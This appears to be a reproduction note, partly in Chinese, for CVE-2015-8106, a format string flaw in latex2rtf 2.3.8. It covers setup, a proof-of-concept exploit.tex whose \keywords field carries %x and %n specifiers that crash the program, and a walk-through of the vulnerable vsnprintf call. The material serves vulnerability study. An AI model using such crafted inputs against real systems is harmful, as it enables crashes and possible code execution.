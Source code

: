 # CVE/EDB ID

CVE-2015-8106

## Experiment Environment

实验环境：Debian 9.13

软件版本：latex2rtf 2.3.8

## INSTALL & Configuration

[LaTeX to RTF converter - Browse /latex2rtf-unix/2.3.8 at SourceForge.net](https://sourceforge.net/projects/latex2rtf/files/latex2rtf-unix/2.3.8/)

解压tar包之后，使用Makefile进行安装即可

## Problems in Installation & Configuration

## How to trigger vulnerability

编写https://seclists.org/oss-sec/2015/q4/283中提供的exploit.tex，如下所示：

```
"exploit.tex"
========================
\documentclass{article}
\begin{document}
\title{Exploitable}
\author{Jong-Gwon Kim}
\keywords{%x\%n\%n\%n}
\end{document}
=========================
```

其中，\keywords这一行，由于latex中符号%的注释作用，会使得第一个%之后的字符全部被忽略，因此应被修改为：`\keywords{\%x\%n\%n\%n}`

执行命令 latex2rtf exploit.tex 后，触发段错误

## PoCs

[CVE-2015-8106 : Format string vulnerability in the CmdKeywords function in funct1.c in latex2rtf before 2.3.10 allows remote attackers t (cvedetails.com)](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2015-8106)

[oss-security - CVE-2015-8106 - latex2rtf v2.3.8 format string vulnerability (openwall.com)](https://www.openwall.com/lists/oss-security/2015/11/16/3)

## Vulnerability Details & Patch

```
When the user runs latex2rtf with malicious crafted tex file, an ``attacker can execute arbitrary code.
The function CmdKeywords processes the \keywords command in tex file.
The variable `keywords' in the function CmdKeywords may hold a malicious ``input string, which can be used as a format argument of vsnprintf.
-- Step 1. (funct1.c 1789 line)

1789        char *keywords = getBraceParam();
For instance, the variable keywords will point to the string “MALICIOUS” ``when a text line "\keywords{MALICIOUS}” exists in an input tex file.
-- Step 2. (funct1.c 1798 line)

1798    fprintRTF(keywords);
fprintfRTF() is called in line 1798, and the parameter is used as a ``format string, which can be malicious, as we described in step 1.
-- Step 3. (main.c 873 line)
858    void fprintRTF(char *format, ...){
      ...
873    vsnprintf(buffer, 1024, format, apf);
      ...
The value of format, which may be malicious, is used as an argument of ``vsnprintf in line 873, therefore arbitrary code can be executed.
```

## References

https://seclists.org/oss-sec/2015/q4/283

